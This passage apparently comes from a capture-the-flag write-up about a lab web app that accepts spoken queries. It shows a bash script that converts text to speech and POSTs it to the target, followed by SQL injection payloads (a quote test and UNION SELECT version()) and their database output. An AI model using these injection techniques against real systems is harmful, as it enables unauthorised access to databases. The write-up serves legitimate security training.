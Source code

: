

-   `-s` will silence the output
-   `-X POST` does a POST request
-   `-F` provides fields from form submitted data, and I can use
    `@filename` to submit the contents of that file as data.
-   `-x` sets my proxy to Burp for troubleshooting

I'll actually pipe the output of that into some `perl` to isolate just
the output I want, and then use `echo` and `bash` variables to format it
nicely:



    #!/bin/bash

    flite -w /tmp/test.wav -voice rms -t "$1"
    out=$(curl -s -X POST http://10.10.10.163/ai.php -F 'fileToUpload=@/tmp/test.wav;type=audio/x-wav' -F 'submit=Process It!' -x http://127.0.0.1:8080 | perl -0777 -ne '/<h3>(.*)<h3>/ && print $1,"\n";')
    echo -e "${out/<br \/>/\\n}"



When I run this, I get both the understanding of my input, and any query
result:



    root@kali# ./query_ai.sh "open single quote"
    Our understanding of your input is : '
    Query result : You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1



### Enumerate Database

Standard SQL Injection practices were made almost impossible because of
the need to submit it as a audio request. I could get something like the
version:



    root@kali# ./query_ai.sh "open single quote space union select version open parenthesis close parenthesis comment database"
    Our understanding of your input is : '  union select version()-- -
    Query result : 5.7.27-0ubuntu0.18.04.1



But many other things were too difficult. For example, I couldn't get it
to see `schema`:



    root@kali# ./query_ai.sh "open single quote space union select group underscore concat space open parenthesis table underscore name close parenthesis space from in formation underscore schema period tables comment database"
    Our understanding of your input is : '  union select group_concat  (table_name)  from in4mation under scorched.tables -- -
    Query result : You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'scorched.tables -- -'' at line 1
